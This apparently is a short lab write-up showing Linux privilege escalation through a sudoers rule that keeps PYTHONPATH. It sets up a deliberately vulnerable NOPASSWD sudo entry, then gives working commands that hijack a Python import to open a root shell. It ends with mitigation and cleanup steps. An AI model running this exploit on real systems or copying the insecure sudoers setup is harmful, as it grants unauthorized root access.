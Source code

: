 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser sudo2
echo "sudo2 ALL=(ALL) NOPASSWD: /usr/bin/python /home/sudo2/script.py" >> /etc/sudoers
echo "Defaults env_keep += PYTHONPATH" >> /etc/sudoers
echo 'import random; print(random.randint(1, 10))' > /home/sudo2/script.py
```

# Exploit

```bash
echo 'import os' > /tmp/random.py
echo 'os.system("/bin/bash -p")' >> /tmp/random.py

export PYTHONPATH=/tmp
sudo python /home/sudo2/script.py
```


# Mitigate

```bash
# Remove env_keep += PYTHONPATH
```


# Clean Up

```bash
deluser sudo2 --remove-home
cp /etc/sudoers.bak /etc/sudoers
```